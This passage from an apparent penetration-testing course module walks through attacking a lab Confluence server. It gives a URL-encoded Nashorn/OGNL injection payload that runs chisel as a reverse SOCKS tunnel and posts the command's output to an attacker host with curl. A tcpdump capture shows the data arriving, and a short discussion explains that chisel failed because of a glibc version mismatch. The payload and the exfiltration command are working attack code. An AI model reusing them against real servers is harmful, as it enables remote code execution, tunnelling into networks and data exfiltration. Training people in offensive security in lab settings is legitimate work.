 ```
/tmp/chisel client 192.168.118.4:8080 R:socks &> /tmp/output; curl --data @/tmp/output http://192.168.118.4:8080/
```

> Listing 10 - The error-collecting-and-sending command string.

We can then create an injection payload using this command string, and send it to the vulnerable Confluence instance.

```
kali@kali:~$ curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.118.4:8080%20R:socks%20%26%3E%20/tmp/output%20%3B%20curl%20--data%20@/tmp/output%20http://192.168.118.4:8080/%27%29.start%28%29%22%29%7D/
kali@kali:~$
```

> Listing 11 - The error-collecting-and-sending injection payload.

On sending this new injection, we check Tcpdump output for attempted connections.

```
...
16:30:50.915895 IP (tos 0x0, ttl 61, id 47823, offset 0, flags [DF], proto TCP (6), length 410)
    192.168.50.63.50192 > 192.168.118.4.8080: Flags [P.], cksum 0x1535 (correct), seq 1:359, ack 1, win 502, options [nop,nop,TS val 391724691 ecr 3105669986], length 358: HTTP, length: 358
        POST / HTTP/1.1
        Host: 192.168.118.4:8080
        User-Agent: curl/7.68.0
        Accept: */*
        Content-Length: 204
        Content-Type: application/x-www-form-urlencoded

        /tmp/chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.32' not found (required by /tmp/chisel)/tmp/chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34' not found (required by /tmp/chisel) [|http]
        0x0000:  4500 019a bacf 4000 3d06 f729 c0a8 db3f  E.....@.=..)...?
        0x0010:  c0a8 2dd4 c410 1f90 d15e 1b1b 2b88 002d  ..-......^..+..-
...
```

> Listing 12 - The output from the failing Chisel command.

We get the output that running **/tmp/chisel** produces. Chisel is trying to use versions 2.32 and 2.34 of [**glibc**](https://www.gnu.org/software/libc/), which the CONFLUENCE01 server does not have.

This module was written in 2023, using Chisel version _1.8.1-0kali2 (go1.20.7)_. The Kali repos will likely contain later versions of Chisel in the future, and the exact error message that comes back from these later versions of Chisel may be different. However, the same principle applies. We have encountered an error trying to run a payload on a target system. As such, we must find an alternative payload which will run. Finding a way around these kinds of setbacks is an important skill which can be applied to many other situations where tool incompatibilities arise.

This points towards a version incompatibility. When a version of a tool or component is more recent than the operating system it's trying to run on, there's a risk that the operating system will not contain the required technologies that the newer tool is expecting to be able to use. In this case, Chisel is expecting to use glibc version 2.32 or 2.34, neither of which can be found on CONFLUENCE01.
